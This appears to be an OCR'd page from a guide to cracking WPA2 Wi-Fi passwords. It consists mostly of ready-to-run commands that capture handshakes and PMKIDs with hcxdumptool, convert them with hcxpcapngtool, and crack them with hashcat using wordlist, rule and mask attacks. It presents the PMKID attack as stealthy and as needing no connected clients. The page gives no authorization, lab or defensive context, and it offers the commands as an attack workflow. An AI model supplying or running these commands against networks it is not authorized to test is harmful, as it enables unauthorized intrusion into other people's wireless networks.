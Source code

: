 
**Advanced WPA2 Attack Techniques (2025)**:

**GPU-Accelerated Cracking with Hashcat**:

# Convert handshake to hashcat format  
hcxpcapngtool -o hash.hc22000 -E essidlist capture.pcapng  
  
# GPU-accelerated cracking  
hashcat -m 22000 hash.hc22000 wordlist.txt -O  
  
# Rule-based attacks  
hashcat -m 22000 hash.hc22000 wordlist.txt -r rules/best64.rule  
  

**Mask Attacks for Pattern-Based Passwords**:

# Mask attack for common password patterns  
hashcat -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d  # 8-digit numeric  
hashcat -m 22000 hash.hc22000 -a 3 ?u?l?l?l?l?d?d      # Capital + 4 letters + 2 digits  
  

**PMKID Attack Deep Dive**

The PMKID attack has revolutionized WPA2 exploitation by eliminating the need for client interaction:[[7\|7]](#fn7)[[12\|12]](#fn12)[[8\|8]](#fn8)

**PMKID Capture Process**:

# Modern PMKID capture with hcxdumptool  
hcxdumptool -i wlan0mon -o pmkid.pcapng --enable_status=1 --filterlist=targets.list  
  
# Alternative: Using airgeddon framework  
# Select PMKID attack option and follow guided process  
  
# Convert and crack  
hcxpcapngtool -o pmkid.hash pmkid.pcapng  
hashcat -m 16800 pmkid.hash rockyou.txt  
  

**PMKID Attack Advantages**:

·        **No Client Dependency**: Works without any connected clients

·        **Stealth Operation**: Appears as legitimate authentication attempt

·        **Efficiency**: Faster than waiting for handshake capture
